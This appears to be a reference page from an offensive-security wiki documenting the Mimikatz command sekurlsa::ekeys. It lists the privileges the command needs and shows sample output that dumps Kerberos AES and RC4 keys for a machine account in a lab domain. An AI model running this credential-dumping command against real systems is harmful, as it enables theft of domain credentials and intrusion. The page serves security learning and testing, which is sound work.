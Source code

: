 # ekeys

It lists Kerberos encryption keys.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::ekeys

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427

         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       d615e9a2f1e538d23478b03efb5ef470b16f352bbd9afa6f28408d1ff893c1c7
           rc4_hmac_nt       35950fdc8d3d99b4136510414009662d
           rc4_hmac_old      35950fdc8d3d99b4136510414009662d
           rc4_md4           35950fdc8d3d99b4136510414009662d
           rc4_hmac_nt_exp   35950fdc8d3d99b4136510414009662d
           rc4_hmac_old_exp  35950fdc8d3d99b4136510414009662d
```
